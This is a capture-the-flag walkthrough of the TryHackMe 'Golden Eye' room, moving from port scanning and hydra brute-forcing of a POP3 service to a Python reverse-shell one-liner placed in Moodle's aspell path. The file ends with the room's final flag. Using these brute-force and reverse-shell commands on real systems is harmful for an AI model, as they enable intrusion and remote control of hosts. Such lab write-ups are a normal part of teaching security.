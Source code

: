 # Tryhackme.com Room : Golden Eye
`https://tryhackme.com/room/goldeneye`


# Instance
```
export IP=10.10.231.49
```

# Nmap
```
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/unknown
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA PIPELINING UIDL USER AUTH-RESP-CODE RESP-CODES STLS SASL(PLAIN) TOP
|_ssl-date: TLS randomness does not represent time
```

Webserver home page is some console animation telling to login at `http://$IP/sev-home`.Its Htaccess login

When looking at terminal.js source we get :
```
Boris, make sure you update your default password. 
My sources say MI6 maybe planning to infiltrate. 
Be on the lookout for any suspicious network traffic....

I encoded you p@ssword below...

&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

BTW Natalya says she can break your codes

```

Username is probably `boris`
The password is htmlencoded : `InvincibleHack3r`


We get on another webpage.
```
Remember, since security by obscurity is very effective, we have configured our pop3 service to run on a very high non-default port
```

We already found an smtp server on port 25 but maybe there is another one.
We port scan higher ports to find the smtp 


We find this in html comments :
```
Qualified GoldenEye Network Operator Supervisors: 
Natalya
Boris
```

we run hydra on the pop3 server 
```
hydra -L logins -P /usr/share/wordlists/fasttrack.txt $IP -s 55007 pop3
```
Where logins contains 
```
natalya
boris
```

We find
```
boris:secret1!
natalya:bird
```

Boris Message's
```
From: root@ubuntu
Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
```

```
From: natalya@ubuntu

Boris, I can break your codes!
```

```
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.
```

Natalya messages:

```
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
```

```
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.

```

From last natalya message, we modify our host so that `$IP` point to `severnaya-station.com` and access `severnaya-station.com/gnocertdir` via browser.


In the messages we find a message from `Dr Doak`. We infer the username `doak`.

We bruteforce the pop3 server again `hydra -l doak -P /usr/share/wordlists/fasttrack.txt $IP -s 55007 pop3`

We get
```
doak:goat
```

We login in pop3 server and find this email :

```
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```

In the moodle private files of this user we find a `s3cret.txt` file
```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.root
```

We find an image

Using `hexiftool` we find this base64 string in `Image Description` Field
```
eFdpbnRlcjE5OTV4IQ==
```

Which give the Admin password :
```
xWinter1995x!
```

In the admin panel, we find `site administration->server->System paths`
We set a python reverse shell in `path to aspell`
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.245.79",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We got to change the default spellchecker in `site administration->Plugins->Text Editors-> TinyMCE HTML`

We create a dummy blog entry and press the spell check button.
we get a reverse shell.

We stabilize the shell a bit with
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


Final flag
```
568628e0d993b1973adc718237da6e93
```


